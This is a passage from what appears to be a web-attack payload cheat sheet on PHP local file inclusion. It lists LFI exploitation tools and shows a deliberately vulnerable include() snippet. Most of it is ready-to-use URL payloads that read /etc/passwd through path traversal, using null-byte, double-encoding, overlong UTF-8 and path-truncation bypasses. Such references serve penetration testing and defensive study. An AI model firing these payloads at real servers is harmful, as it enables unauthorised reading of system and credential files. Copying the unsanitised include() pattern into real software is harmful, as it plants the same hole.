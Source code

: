 * [Kadimus - https://github.com/P0cL4bs/Kadimus](https://github.com/P0cL4bs/Kadimus)
* [LFISuite - https://github.com/D35m0nd142/LFISuite](https://github.com/D35m0nd142/LFISuite)
* [fimap - https://github.com/kurobeats/fimap](https://github.com/kurobeats/fimap)
* [panoptic - https://github.com/lightos/Panoptic](https://github.com/lightos/Panoptic)


## Local File Inclusion

Consider a PHP script that includes a file based on user input. If proper sanitization is not in place, an attacker could manipulate the `page` parameter to include local or remote files, leading to unauthorized access or code execution.

```php
<?php
$file = $_GET['page'];
include($file);
?>
```

In the following examples we include the `/etc/passwd` file, check the `Directory & Path Traversal` chapter for more interesting files.

```powershell
http://example.com/index.php?page=../../../etc/passwd
```

### Null byte

:warning: In versions of PHP below 5.3.4 we can terminate with null byte.

```powershell
http://example.com/index.php?page=../../../etc/passwd%00
```

### Double encoding

```powershell
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

### UTF-8 encoding

```powershell
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```

### Path and dot truncation

On most PHP installations a filename longer than `4096` bytes will be cut off so any excess chars will be thrown away.

```powershell
http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE] 
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
```
